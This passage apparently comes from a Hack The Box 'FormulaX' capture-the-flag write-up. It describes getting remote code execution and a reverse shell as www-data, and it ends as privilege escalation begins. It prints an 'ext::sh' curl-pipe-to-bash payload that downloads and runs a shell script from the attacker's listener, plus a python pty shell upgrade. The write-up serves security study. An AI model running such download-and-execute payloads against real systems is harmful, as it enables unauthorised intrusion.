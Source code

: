 However, our Python web server receives incoming conenction from the web app, meaning it is vulnerble to RCE:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-25.png)

### Reverse Shell

Let's create **shell.sh** that will spawn reverse shell connection back to netcat listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-26.png)

We will now run the command that will download **shell.sh** and run it:

`ext::sh -c curl% http://10.10.14.36:9001/shell.sh|bash`

As the command is executed, it grabs **shell.sh** from our Python web server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-27.png)

After it grabs **shell.sh**, it runs it, and we are now given reverse shell as **www-data**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-28.png)

Before further enumeration, let's make the shell more interactive using Python:

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-30.png)

## Privesc: www-data to frank_dorky
### Local Enumeration
